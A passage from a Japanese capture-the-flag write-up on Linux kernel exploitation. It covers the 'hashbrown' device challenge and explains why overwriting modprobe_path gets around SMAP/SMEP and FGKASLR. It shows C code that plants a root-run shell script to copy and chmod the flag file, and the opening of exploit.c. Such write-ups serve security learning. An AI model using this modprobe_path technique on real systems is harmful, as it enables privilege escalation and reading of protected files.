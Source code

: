 
# overwrite modprobe_path
今回はSMAP/SMEP有効だから、ユーザランドのシェルコードを実行させるということはできない。かといってROPを組もうにも、FGKASLRが有効であるからガジェットの位置が定まらない。こんなときは、定番の**modprobe_path**の書き換えを行う。`modprobe_path`はデータセクションにあるためFGKASLRの影響を受ける心配もない。
以下の感じで、ぷいぷいもるかー。
```modprobe_path_nirugiri.c
  // trigger modprobe_path
  system("echo -ne '#!/bin/sh\n/bin/cp /flag.txt /home/ctf/flag.txt\n/bin/chmod 777 /home/ctf/flag.txt' > /home/ctf/nirugiri.sh");
  system("chmod +x /home/ctf/nirugiri.sh");
  system("echo -ne '\\xff\\xff\\xff\\xff' > /home/ctf/puipui-molcar");
  system("chmod +x /home/ctf/puipui-molcar");
  system("/home/ctf/puipui-molcar");

  // NIRUGIRI it
  system("cat /home/ctf/flag.txt");
```



# exploit
```exploit.c
#define _GNU_SOURCE
#include <string.h>
#include <stdio.h>
#include <fcntl.h>
#include <stdint.h>
#include <unistd.h>
#include <assert.h>
#include <stdlib.h>
#include <signal.h>
#include <poll.h>
#include <pthread.h>
#include <err.h>
#include <errno.h>
#include <sched.h>
#include <linux/bpf.h>
#include <linux/filter.h>
#include <linux/userfaultfd.h>
#include <linux/prctl.h>
#include <sys/syscall.h>
#include <sys/ipc.h>
#include <sys/msg.h>
#include <sys/prctl.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/xattr.h>
#include <sys/socket.h>
#include <sys/uio.h>
#include <sys/shm.h>


// commands
#define DEV_PATH "/dev/hashbrown"   // the path the device is placed

// constants
#define PAGE 0x1000
#define FAULT_ADDR 0xdead0000
#define FAULT_OFFSET PAGE
#define MMAP_SIZE 4*PAGE
#define FAULT_SIZE MMAP_SIZE - FAULT_OFFSET
// (END constants)
```